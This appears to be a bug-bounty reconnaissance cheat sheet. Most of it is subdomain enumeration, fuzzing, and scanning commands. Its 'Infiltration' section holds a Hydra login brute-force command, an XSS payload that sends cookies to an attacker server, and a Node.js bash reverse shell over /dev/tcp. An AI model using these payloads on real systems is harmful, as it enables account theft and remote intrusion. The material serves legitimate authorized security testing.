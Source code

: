 # Asset Enumeration

### Assetfinder Domain Lookup:
```bash
assetfinder <domain> > /path/to/your/targets/<target>/assetfinder.txt
```
### Nuclei Single Search:
```bash
nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -u <domain> -rl 50 -me "/path/to/your/targets/<target>/nuclei" -fr -project /path/to/your/targets/<target>/nuclei -eid http-missing-security-headers
```

### Nuclei Bulk Search:
```bash
nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -l /path/to/your/targets/<target>/in_scope.txt -rl 50 -me "/path/to/your/targets/<target>/nuclei" -fr -project /path/to/your/targets/<target>/nuclei -eid http-missing-security-headers
```

### Nuclei Specific-Template Search:
```bash
nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -l /path/to/your/targets/<target>/subs.txt -rl 50 -me "/path/to/your/targets/<target>/nuclei" -id email-extractor -fr -eid http-missing-security-headers
```

### Waybackmachine Domain Lookup:
```bash
waybackurls <domain> | httpx -silent > /path/to/your/targets/<target>/waybackurls.txt
```

### Subfinder Domain Lookup:
```bash
subfinder -d <domain> -silent -rl 50 -active -oD /path/to/your/targets/<target>/subfinder/
```

### Amass Domain Lookup:
```bash
amass enum --passive -dns-qps 50 -timeout 20 -d <domain> -o /path/to/your/targets/<target>/amass/output.txt
```

### Amass Domain Lookup with Previous Subfinder Output:
```bash
amass enum --passive -dns-qps 50 -timeout 20 -d <domain> -o /path/to/your/targets/<target>/amass/output.txt -nf "/path/to/your/targets/<target>/subfinder/<domain>.txt"
```

### Multi-Chain Asset Enumeration (including filtering of alive domains):
```bash
subfinder -d <domain> -silent -rl 50 -active -oD /path/to/your/targets/<target>/subfinder/ && \
assetfinder <domain> >> /path/to/your/targets/<target>/subfinder/<domain>.txt && \
waybackurls <domain> >> /path/to/your/targets/<target>/subfinder/<domain>.txt && \
amass enum --passive -dns-qps 50 -timeout 20 -d <domain> -o /path/to/your/targets/<target>/amass.txt -nf "/path/to/your/targets/<target>/subfinder/<domain>.txt" && \
cat /path/to/your/targets/<target>/amass.txt | httpx -silent > /path/to/your/targets/<target>/final_assets.txt
```

### Add domain to BBRF:
```bash
bbrf domain add '*.example.com'
```

### Resolve Domains and Update BBRF:
```bash
for p in $(bbrf programs); do
  bbrf domains --view unresolved -p $p | \
  dnsx -silent -a -resp | tr -d '[]' | tee \
      >(awk '{print $1":"$2}' | bbrf domain update - -p $p -s dnsx) \
      >(awk '{print $1":"$2}' | bbrf domain add - -p $p -s dnsx) \
      >(awk '{print $2":"$1}' | bbrf ip add - -p $p -s dnsx) \
      >(awk '{print $2":"$1}' | bbrf ip update - -p $p -s dnsx)
done
```

### Parameter Enumeration in Burp via WSL to Windows Host Machine:
```bash
waybackurls <domain> | qsreplace "USERNAME" > /path/to/your/targets/<target>/fuzz.txt && ffuf -u FUZZ -w /path/to/your/targets/<target>/fuzz.txt -replay-proxy "https://$winhost:8080"
```

### Meg Enumeration with BBRF:
```bash
rm -rf /path/to/your/targets/<target>/.tmp && mkdir /path/to/your/targets/<target>/.tmp && bbrf domains | awk '{print "https://" $0}' > /path/to/your/targets/<target>/.tmp/hosts && meg --verbose -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -H "X-HackerOne-Research: USERNAME" --savestatus 200 /path/to/your/wordlists/simple-paths.txt /path/to/your/targets/<target>/.tmp/hosts /path/to/your/targets/<target>/meg_output/
```

### Nuclei Search With Active Domains from BBRF:
```bash
bbrf domains where source is dnsx | nuclei -H "User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL" -H "X-HackerOne-Research: USERNAME" -rl 50 -me "/path/to/your/targets/<target>/nuclei" -fr -project /path/to/your/targets/<target>/nuclei -eid http-missing-security-headers -debug
```

# Content Discovery

### Search Github Org for Exposed Secrets/API keys:
```bash
trufflehog github --org=ORGANISATION
```

### FFUZ Fuzzing:
```bash
ffuf -w /path/to/your/wordlists/jhaddix_all.txt -u <URL>/FUZZ -H 'User-Agent: USERNAME HACKERONE_EMAIL' -recursion -recursion-depth 5 -c -maxtime 3600 -rate 20 -p "0.1-2.0" -fc 404 -od /path/to/your/targets/<target>/ffuf/
```

### Decompile/Analyse APK files with [apkrip.sh](/Cybersecurity/Red%20Team/Bash/apkrip/):
```bash
./apkrip.sh -f /path/to/your/targets/<target>/<app>.apk -d /path/to/your/targets/<target> -t <target>
```


### Feroxbuster Fuzzing:
```bash
sudo docker run --init -v /path/to/your/wordlists/:/wordlists/ -v /path/to/your/targets/<target>/feroxbuster/:/target/ -it epi052/feroxbuster -u <domain> -H 'User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL' -C 404 -C 302 -C 301 -d 6 --rate-limit 50 -w <wordlist> -o /target/feroxbuster.txt
```

### Spider for Subdomains/Directories:
```bash
gospider -q -s <domain> -H 'User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL' -o /path/to/your/targets/<target>/spider -c 20
```

### Jaeles Scanning:
```bash
jaeles scan -s 'js,html,php' -c 20 -u <domain> -H 'User-Agent: Mozilla Firefox USERNAME HACKERONE_EMAIL' -o /path/to/your/targets/<target>/jaeles -v
```

### Naabu Port Scan (Top 1000 Ports) into nmap Port Scan:
```bash
cd /path/to/your/targets/<target>/ && naabu -host <domain> -tp 1000 -rate 100 -nmap-cli 'nmap -sV -sC -oA <target> -T2'
```

### Simple nmap Scan:
```bash
nmap -sC -sV -T2 -oA <target> <domain>
```

### Check .DS_Store Files for Leftover Data:
```bash
python3 ./main.py /path/to/your/targets/<target>/.DS_Store
```

### Check Slack Webhook:
```bash
curl -s -X POST -H "Content-type: application/json" -d '{"text":""}' "SLACK_WEBHOOK_URL"
```

## Infiltration

### Hydra Login Form Brute-Force:
```bash
hydra -L /path/to/your/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /path/to/your/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt <domain> -s <port> http-post-form "/api/login/:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}: NOT FOUND"
```

### Quick Image-Based XSS:
```bash
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

### Netcat Listener:
```bash
nc <yourserver> <yourport>
```

### NC Reverse shell from NodeJS process:
```bash
require('child_process').exec('bash -c "bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1"')
```

# Utility

### Generate a Self-Signed SSL Certificate and Key File:
```bash
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout ./selfsigned.key -out selfsigned.crt
```

### Partial String Match in Directory (useful for wildcard-type searches):
```bash
grep -nr '<string>' <directory>
```